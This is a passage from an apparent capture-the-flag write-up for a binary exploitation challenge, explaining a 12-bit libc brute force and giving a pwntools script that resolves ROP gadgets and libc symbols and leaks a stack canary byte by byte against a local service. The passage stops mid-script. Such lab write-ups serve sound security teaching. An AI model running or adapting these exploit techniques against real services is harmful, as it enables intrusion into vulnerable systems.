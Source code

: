 ## Challenge 15

Same as 14, but this time no `challenge` frame is being opened - hence the overwritten return address is a libc pointer. We can try to use a similar method, and overwrite bytes until `__stack_chk_fail` is hit, but this time we would use libc’s symbol. 

Notice we first have to do 12-bit bruteforce of libc address, as the relative offset of `__stack_chk_fail` within libc, compared to `__libc_start_main`, are 3 bytes away. 12 LSbs are deterministic, hence 12 bit BF.

```python
from glob import glob
from dataclasses import dataclass
from subprocess import check_output
from pwn import *
import os, sys
import struct
import time
import shutil
import signal
BINARY = glob('/challenge/baby*')[0]
LIBC = '/lib/x86_64-linux-gnu/libc.so.6'
GDB_SCRIPT= '''
set follow-fork-mode child
b *challenge+383
c
'''
context.terminal = ['/run/workspace/bin/xfce4-terminal', '-e']
context.arch = 'amd64'
context.encoding = 'latin'
context.log_level = 'INFO'
warnings.simplefilter('ignore')
elf = ELF(BINARY)
libc = ELF(LIBC)
elf_bin_padding = elf.symbols['bin_padding']
elf_stack_chk = elf.symbols['__stack_chk_fail']
elf_puts = elf.symbols['puts']
elf_start = elf.symbols['_start']
elf_puts_got = elf.got['puts']
libc_environ = libc.symbols['environ']
libc_stack_chk = libc.symbols['__stack_chk_fail']
libc_puts = libc.symbols['puts']
libc_chmod = libc.symbols['chmod']
rop = ROP(BINARY)
libc_rop = ROP(LIBC)
pop_rdi_ret = rop.find_gadget(['pop rdi']).address
pop_rsi_ret = rop.find_gadget(['pop rsi']).address
leave_ret = rop.find_gadget(['leave']).address
libc_leave_ret = libc_rop.find_gadget(['leave']).address
libc_pop_rdi_ret = 0x23b6a  # libc_rop.find_gadget(['pop rdi']).address
libc_pop_rsi_ret = 0x2601f  # libc_rop.find_gadget(['pop rsi']).address


def leak_canary(padding):
    current_buf = b'A' * padding
    while len(current_buf) < padding + 8:
    # if True:
        for num in range(256):
            with remote('0.0.0.0', 1337) as p:
                candidate = current_buf + num.to_bytes(1, 'little')
                p.send(candidate)
                try:
                    output = p.recvuntil(b'*** stack smashing detected ***', timeout=9)
                except Exception:
```